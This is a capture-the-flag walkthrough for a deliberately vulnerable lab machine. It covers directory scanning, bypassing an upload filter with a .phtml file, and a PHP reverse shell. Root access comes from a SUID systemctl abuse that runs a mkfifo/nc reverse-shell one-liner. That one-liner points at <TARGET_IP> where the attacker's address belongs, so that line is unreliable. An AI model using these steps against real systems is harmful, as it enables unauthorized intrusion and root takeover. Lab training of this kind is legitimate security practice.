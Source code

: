 Vulnversity
===========

Vulnversity is a nice straightforward CTF that emulates basic know-how of getting access to a system and then escalating your priviledge. Quite enjoyable to say the least, just needs you to understand some underlying code.

Lets start with an nmap scan of the target IP, which will look something like this:

```
nmap -sV -Pn -v <TARGET_IP>
```

![Image](/images/1.png)

We see that we have 6 ports open, where `http-proxy` and `http` seem interesting. Open the target IP on your browser like this: `<TARGET_IP>:3333`

Next, we can work on a gobuster scan on this webpage, which a command that looks something like this:

```
gobuster dir -u http://<TARGET_IP>:3333/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt
```
(Note: You can make this faster by using the `-t` option. Personally, I use `-t 40` but you can go beyond if your PC can take it)

We see that we get the following hits:
```
/images
/index.html
/css
/js
/fonts
/internal
```
Other than the last one, everything else seems pretty standard. Lets check out `/internal` first:

![Image](/images/2.png)

Upload forms generally are an attack vector that we can use to use the Unrestricted File Upload exploit (As stated by OWASP)

When you try to upload a file, you will be an "Extension not allowed" error. This means that we have to fuzz this upload form to see which extension can be uploaded. A wordlist you can use for this can be found here: https://github.com/xmendez/wfuzz/blob/master/wordlist/general/extensions_common.txt

A good way to fuzz upload forms, is through BurpSuite, we can capture the upload form packet and use its Intruder mode to bruteforce which extension works. Firstly, Start BurpSuite, make a simple `.txt` file (mine is called `a.txt`) and upload it. Before clicking Submit, switch on Intercept in Proxy mode to capture the packet and then click Submit.

Your Proxy tab should look like this:

![Image](/images/3.png)

Right-click and send the packet to Intruder, and add your target to look something like this:

![Image](/images/4.png)

Use the wordlist I provided above as the payload and we can start the attack. (Make sure to disable URL encode in the options tab)

Once that is concluded, we can see in the below picture that only `.phtml` gets accepted:

![Image](/images/5.png)

.phtml is a file extension that we can use to write PHP code. We can make a reverse shell payload in PHP and try to execute it on the website. You can get a PHP payload from this website and use the .phtml extension on it: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php (Replace the IP and port in the above script and save it)

We have a reverse shell payload that we can upload to the website, so we can go ahead and upload it, start a listener with the following command:
```
nc -lvnp PORT
```
and execute the reverse shell file by going to this webpage: http://<TARGET_IP>:3333/internal/uploads/FILE_YOU_UPLOADED

On your listener, we can see that we have recieved a reverse shell. I like to use the following command to make my reverse shell a little more readable:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

On typing `ls`, we can see that we are in the `/` directory. From here on, we can explore the home directory, find the user `bill` and the user flag in: `/home/bill/user.txt`

Here on out, we need to escalate our priviledge, I tried `sudo -l` but it asks a sudo password and we don't have that, so I try the next best thing, SUID executables. We can find all the SUID files through the following command:
```
find . -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

I then used this website: https://gtfobins.github.io/ to see if I can find any existing SUID vulnerabilities. After looking through the whole list, you find that `systemctl` can be exploited if it has SUID root permission. You can read about it here: https://gtfobins.github.io/gtfobins/systemctl/#suid

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

The above code essentially means that we can execute the `id` command and the output will be displayed at `/tmp/output`. Once executed, you can see that the ID is of the root user. This tells us that if we can get a reverse shell from this command, it will be the root reverse shell. I looked for a couple reverse shells and found this one to work the best:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <TARGET_IP> PORT >/tmp/f
```

This works best because it is small and doesn't need any quotation marks (They mess up the SUID exploit).

So, your SUID exploit will look like this:

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <TARGET_IP> PORT >/tmp/f"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Start another listener on a different port using the `nc -lvnp PORT` command and execute the above exploit. When you check on your listener, you will be having a reverse shell. You can find the root flag in: `/root/root.txt`
